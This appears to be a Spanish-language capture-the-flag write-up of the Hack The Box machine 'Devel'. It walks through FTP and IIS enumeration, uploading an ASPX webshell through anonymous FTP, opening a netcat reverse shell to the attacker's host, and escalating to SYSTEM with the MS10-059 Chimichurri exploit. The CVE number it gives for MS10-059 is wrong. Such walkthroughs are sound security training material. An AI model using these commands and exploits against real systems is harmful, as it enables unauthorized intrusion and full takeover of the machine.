



# Devel

`Devel,` aunque es relativamente simple, demuestra los riesgos de seguridad asociados con algunas configuraciones de programas predeterminadas. Es una máquina de nivel principiante que se puede completar utilizando exploits disponibles públicamente.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina `Devel`. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.5 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-20 22:45 CET
Initiating SYN Stealth Scan at 22:45
Scanning 10.10.10.5 [65535 ports]
Discovered open port 21/tcp on 10.10.10.5
Discovered open port 80/tcp on 10.10.10.5
SYN Stealth Scan Timing: About 23.88% done; ETC: 22:47 (0:01:39 remaining)
SYN Stealth Scan Timing: About 47.17% done; ETC: 22:47 (0:01:08 remaining)
SYN Stealth Scan Timing: About 71.33% done; ETC: 22:47 (0:00:37 remaining)
Completed SYN Stealth Scan at 22:47, 128.65s elapsed (65535 total ports)
Nmap scan report for 10.10.10.5
Host is up, received user-set (0.062s latency).
Scanned at 2025-02-20 22:45:12 CET for 128s
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 127
80/tcp open  http    syn-ack ttl 127

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 128.77 seconds
           Raw packets sent: 131166 (5.771MB) | Rcvd: 148 (8.672KB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.5
	[*] Open ports: 21,80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado del escaneo con los scripts de **Nmap**, verificamos que el acceso al `FTP` a través del usuario `anonymous` se encuentra habilitado y hemos podido realizar una enumeración de los archivos y directorios presentes.

Por otro lado, también comprobamos que se encuentra un servidor de `IIS` expuesto por el puerto `80`.

```bash
❯ nmap -sCV -p21,80 10.10.10.5 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-20 22:50 CET
Nmap scan report for 10.10.10.5
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|2012|8.1 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Server 2008 R2 or Windows 7 SP1 (92%), Microsoft Windows Vista or Windows 7 (92%), Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   133.01 ms 10.10.16.1
2   184.55 ms 10.10.10.5

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.51 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

## Web Enumeration

Comprobaremos las cabeceras de la página web para verificar si podemos obtener algún tipo de información interesante, solamente logramos obtener la versión del `IIS`. Por otro lado, comprobamos a través de la herramienta `whatweb` las tecnologías que se utilizan en la aplicación web.

```bash
❯ curl -I http://10.10.10.5
HTTP/1.1 200 OK
Content-Length: 689
Content-Type: text/html
Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
Accept-Ranges: bytes
ETag: "37b5ed12c9fd21:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Thu, 20 Feb 2025 16:51:23 GMT

❯ whatweb http://10.10.10.5
http://10.10.10.5 [200 OK] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/7.5], IP[10.10.10.5], Microsoft-IIS[7.5][Under Construction], Title[IIS7], X-Powered-By[ASP.NET]
```

Accederemos a [http://10.10.10.5 ](http://10.10.10.5)en donde podremos comprobar el acceso al `IIS`, pero no logramos obtener nada interesante

<figure><figcaption></figcaption></figure>

Realizaremos una enumeración de páginas web y directorios para verificar la existencia de posibles directorios, etc. En el resultado obtenido, solamente nos llama la atención el directorio `aspnet_client`.

```bash
❯ feroxbuster -u http://10.10.10.5/ -t 200 -C 500,502,404
                                                                                                                                                                                                                                      
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.5/
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [500, 502, 404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       29l       95w     1245c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        2l       10w      155c http://10.10.10.5/aspnet_client => http://10.10.10.5/aspnet_client/
200      GET        0l        0w   184946c http://10.10.10.5/welcome.png
200      GET       32l       53w      689c http://10.10.10.5/
```

Al tratar de acceder a [http://10.10.10.5/aspnet\_client/](http://10.10.10.5/aspnet_client/), se nos indica un mensaje de error `403 Forbidden`.

<figure><figcaption></figcaption></figure>

## FTP Enumeration

A través de la herramienta de `NetExec` realizaremos una comprobación del acceso a través del usuario `anonymous` al servicio de `FTP`.

```bash
❯ nxc ftp 10.10.10.5 -u 'anonymous' -p ''
FTP         10.10.10.5      21     10.10.10.5       [*] Banner: Microsoft FTP Service
FTP         10.10.10.5      21     10.10.10.5       [+] anonymous: - Anonymous Login!
```

Listaremos el contenido del servidor `FTP`, en el resultado obtenido comprobamos la existencia de una imagen, una página `HTM` y un directorio `aspnet_client`.

```bash
❯ nxc ftp 10.10.10.5 -u 'anonymous' -p '' --ls
FTP         10.10.10.5      21     10.10.10.5       [*] Banner: Microsoft FTP Service
FTP         10.10.10.5      21     10.10.10.5       [+] anonymous: - Anonymous Login!
FTP         10.10.10.5      21     10.10.10.5       [*] Directory Listing
FTP         10.10.10.5      21     10.10.10.5       03-18-17  01:06AM       <DIR>          aspnet_client
FTP         10.10.10.5      21     10.10.10.5       03-17-17  04:37PM                  689 iisstart.htm
FTP         10.10.10.5      21     10.10.10.5       03-17-17  04:37PM               184946 welcome.png
```

Realizaremos una comprobación de los directorios que vayamos encontrando, pero en este caso, no logramos obtener resultado ninguno.

<pre class="language-bash"><code class="lang-bash">❯ nxc ftp 10.10.10.5 -u 'anonymous' -p '' --ls aspnet_client
FTP         10.10.10.5      21     10.10.10.5       [*] Banner: Microsoft FTP Service
FTP         10.10.10.5      21     10.10.10.5       [+] anonymous: - Anonymous Login!
FTP         10.10.10.5      21     10.10.10.5       [*] Directory Listing for aspnet_client
FTP         10.10.10.5      21     10.10.10.5       03-18-17  01:06AM       &#x3C;DIR>          system_web
<strong>
</strong><strong>❯ nxc ftp 10.10.10.5 -u 'anonymous' -p '' --ls aspnet_client/system_web
</strong>FTP         10.10.10.5      21     10.10.10.5       [*] Banner: Microsoft FTP Service
FTP         10.10.10.5      21     10.10.10.5       [+] anonymous: - Anonymous Login!
FTP         10.10.10.5      21     10.10.10.5       [*] Directory Listing for aspnet_client/system_web
FTP         10.10.10.5      21     10.10.10.5       03-18-17  01:06AM       &#x3C;DIR>          2_0_50727

❯ nxc ftp 10.10.10.5 -u 'anonymous' -p '' --ls aspnet_client/system_web/2_0_50727
FTP         10.10.10.5      21     10.10.10.5       [*] Banner: Microsoft FTP Service
FTP         10.10.10.5      21     10.10.10.5       [+] anonymous: - Anonymous Login!
FTP         10.10.10.5      21     10.10.10.5       [*] Directory Listing for aspnet_client/system_web/2_0_50727
</code></pre>

Nos descargaremos el archivo `iistart.htm` que nos encontramos para comprobar si en el código fuente de la página existía algún tipo de información interesante.

```bash
❯ nxc ftp 10.10.10.5 -u 'anonymous' -p '' --get iisstart.htm
FTP         10.10.10.5      21     10.10.10.5       [*] Banner: Microsoft FTP Service
FTP         10.10.10.5      21     10.10.10.5       [+] anonymous: - Anonymous Login!
FTP         10.10.10.5      21     10.10.10.5       [+] Downloaded: iisstart.htm
```

El contenido del archivo `iistart.htm` se trata de la página web que se encuentra expuesta del servidor `IIS`en [http://10.10.10.5](http://10.10.10.5).


```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
<title>IIS7</title>
<style type="text/css">
<!--
body {
	color:#000000;
	background-color:#B3B3B3;
	margin:0;
}

#container {
	margin-left:auto;
	margin-right:auto;
	text-align:center;
	}

a img {
	border:none;
}

-->
</style>
</head>
<body>
<div id="container">
<a href="http://go.microsoft.com/fwlink/?linkid=66138&amp;clcid=0x409"></a>
</div>
</body>
</html>
```


## Intrusion

### Abusing FTP & IIS to Upload a Webshell and Execute Commands

Dado que hemos comprobado que al parecer el servidor `FTP` se encuentra montado en la ruta donde se encuentra el `IIS`levantado, lo que probaremos es de intentar subir una **webshell** de `ASPX` para poder  ejecutar comandos arbitrarios en el sistema objetivo.

```bash
❯ locate cmd.aspx
/usr/share/davtest/backdoors/aspx_cmd.aspx
/usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx

❯ cp /usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx .
```

Subiremos nuestra `webshell` llamada `cmd.aspx`al servidor `FTP`.

```bash
❯ nxc ftp 10.10.10.5 -u 'anonymous' -p '' --put cmd.aspx cmd.aspx
FTP         10.10.10.5      21     10.10.10.5       [*] Banner: Microsoft FTP Service
FTP         10.10.10.5      21     10.10.10.5       [+] anonymous: - Anonymous Login!
FTP         10.10.10.5      21     10.10.10.5       [+] Uploaded: cmd.aspx to cmd.aspx
```

Verificaremos que finalmente se ha subido correctamente, con lo cual confirmamos que tenemos capacidad de subir archivos desde nuestro sistema.

```bash
❯ nxc ftp 10.10.10.5 -u 'anonymous' -p '' --ls
FTP         10.10.10.5      21     10.10.10.5       [*] Banner: Microsoft FTP Service
FTP         10.10.10.5      21     10.10.10.5       [+] anonymous: - Anonymous Login!
FTP         10.10.10.5      21     10.10.10.5       [*] Directory Listing
FTP         10.10.10.5      21     10.10.10.5       03-18-17  01:06AM       <DIR>          aspnet_client
FTP         10.10.10.5      21     10.10.10.5       02-20-25  07:03PM                 1400 cmd.aspx
FTP         10.10.10.5      21     10.10.10.5       03-17-17  04:37PM                  689 iisstart.htm
FTP         10.10.10.5      21     10.10.10.5       03-17-17  04:37PM               184946 welcome.png
```

Accederemos a [http://10.10.10.5/cmd.aspx](http://10.10.10.5/cmd.aspx) y comprobaremos que efectivamente se encuentra nuestra `webshell` subida y podemos ejecutar comandos en el sistema.

<figure><figcaption></figcaption></figure>

Ahora que tenemos capacidad de lograr ejecutar comandos arbitrarios en el sistema, el siguiente paso será lograr obtener acceso al equipo. Por lo tanto, nos pondremos en escucha con `nc` para recibir la Reverse Shell.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
```

En nuestro equipo local, deberemos de disponer del binario de `nc.exe` en el cual compartiremos a través de un servidor `SMB`.

```bash
❯ ls -l nc.exe
.rwxr-xr-x kali kali 28 KB Thu Feb 20 23:09:09 2025  nc.exe

❯ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Ejecutaremos el siguiente comando para ejecutar el `nc.exe` que estamos compartiendo a través de nuestro recurso compartido y le indicaremos que nos proporcione una consola `CMD` a nuestro equipo atacante.

```bash
\\10.10.16.3\smbFolder\nc.exe -e cmd 10.10.16.3 443
```

<figure><figcaption></figcaption></figure>

Verificamos que finalmente hemos logrado acceso al sistema y nos encontramos con el usuario `iis apppool\web`.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.5] 49167
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```

## Privilege Escalation

### Using windows-exploit-suggester to find paths to PrivEsc

Una de las maneras de poder lograr disponer acceso como usuario `Administrator` es mediante la información del sistema. Para ello, a través del comando `systeminfo` logramos obtener la siguiente información del sistema, en la cual comprobamos que se trata de un `Windows 7 Enterprise`.

```bash
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          20/2/2025, 6:19:34 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.479 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.548 MB
Virtual Memory: In Use:    593 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection 4
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::953e:ad94:9096:2ea3
                                 [03]: dead:beef::45fa:b4af:3131:be53
                                 [04]: dead:beef::953e:ad94:9096:2ea3
```

Nos copiaremos el contenido del `systeminfo` en nuestro equipo local en un archivo llamado `systeminfo.txt`.

A través de la herramienta de `windows-exploit-suggester`, buscaremos alguna vía potencial para escalar nuestros privilegios en base al `systeminfo`que le hemos indicado.

En el resultado obtenido, verificamos diferentes vulnerabilidades que se pueden realizar en el sistema.

```bash
❯ ls -l systeminfo.txt
.rw-rw-r-- kali kali 2.0 KB Thu Feb 20 23:14:04 2025  systeminfo.txt

❯ python2.7 /opt/windows-exploit-suggester/exploit -u
[*] initiating winsploit version 3.3...
[+] writing to file 2025-02-20-mssb.xls
[*] done

❯ python2.7 /opt/windows-exploit-suggester/exploit -d 2025-02-20-mssb.xls -i systeminfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 179 potential bulletins(s) with a database of 137 known exploits
[*] there are now 179 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 7 32-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

### Exploitation MS10-059 - Tracing Feature for Services

Después de revisar posibles vulnerabilidades que se nos han reportado, decidimos en optar en verificar si podíamos llegar a explotar la vulnerabilidad `MS10-059` reportada como `CVE-2020-2554`.




El Tracing Feature for Services en Microsoft Windows Vista SP1 y SP2, Windows Server 2008 Gold, SP2, y R2, y Windows 7 tiene un ACLs incorrecto en su llave de registro, lo que permite a usuarios locales obtener privilegios a través de vectores que relacionan una tubería (pipe) y suplantación, conocido como "Vulnerabilidad de traza de llave de registro de ACL"


En el siguiente repositorio de GitHub, se nos proporcionan distintos exploits entre los cuales disponemos del `MS10-059`. El binario de `MS10-059.exe` (`Chimichurri.exe`) el cual compartiremos a través de un servidor `SMB` que nos montaremos en nuestro equipo.



```bash
❯ ls -l MS10-059.exe
.rw-rw-r-- kali kali 766 KB Thu Feb 20 23:24:10 2025  MS10-059.exe

❯ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Desde el equipo víctima, copiaremos el binario en un directorio que dispongamos permisos de ejecución, como en este caso, el directorio `C:\ProgramData`.

```bash
C:\ProgramData>copy \\10.10.16.3\smbFolder\MS10-059.exe C:\ProgramData\MS10-059.exe
copy \\10.10.16.3\smbFolder\MS10-059.exe C:\ProgramData\MS10-059.exe
        1 file(s) copied.

C:\ProgramData>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of C:\ProgramData

21/02/2025  12:24 ��           784.384 MS10-059.exe
13/12/2020  12:50 ��    <DIR>          VMware
               3 File(s)        908.800 bytes
               1 Dir(s)   4.691.062.784 bytes free
```

Ejecutaremos el binario de `MS10-059.exe` y comprobaremos el funcionamiento correcto de la aplicación. Al parecer, al ejecutar el binario e indicarle nuestra dirección IP y puerto, deberemos de recibir una Reverse Shell con permisos de `Administrator`.

```powershell
C:\ProgramData>MS10-059.exe
MS10-059.exe
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR>
```

Nos pondremos en escucha con `nc` para recibir la Reverse Shell.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos nuevamente el binario indicándole nuestra dirección y puerto donde nos encontramos en escucha.

```powershell
C:\ProgramData>MS10-059.exe 10.10.16.3 443
MS10-059.exe 10.10.16.3 443
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```

Verificamos que finalmente hemos podido ganar acceso al sistema como usuario `NT AUTHORITY\SYSTEM` y podemos visualizar las flags **user.txt** y **root.txt**.

```powershell
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.5] 49175
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ProgramData>whoami
whoami
nt authority\system

C:\ProgramData>type C:\Users\babis\Desktop\user.txt
type C:\Users\babis\Desktop\user.txt
0a94ba0*************************

C:\ProgramData>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
2a3a25e*************************
```
